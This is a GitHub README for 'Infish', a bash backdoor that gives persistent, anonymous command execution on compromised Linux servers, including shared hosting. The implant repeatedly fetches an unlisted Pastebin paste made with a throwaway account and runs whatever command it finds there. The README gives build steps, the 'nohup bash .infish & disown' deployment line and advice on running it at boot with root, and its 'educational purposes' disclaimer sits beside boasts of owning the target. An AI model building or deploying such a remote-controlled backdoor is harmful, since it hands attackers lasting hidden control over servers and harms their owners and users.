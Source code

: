# Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **only a reboot** can save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

There are two ways to build the final product.

- Using a raw paste url
- Using your pastebin dev api key, username, and password


## Using a raw paste url

This is when you have already created a paste by hand. Get the **raw paste url** and run the following command

```bash
bash build url pastebin.com/raw/abc123
```

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
>bash build key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully build infinite shell

```

A file called '.infish' is created.

Finally on the server, run

```bash
nohup bash .infish & disown
```

Now, you can edit your paste to any shell command and the server will run it.

That's it, you own the server. If you have root access, you can set the last command to run on boot.

If you're confused or have no idea what's going on on this page, then you should not be here. Go build cute websites and apps.




Stay Dangerous :)
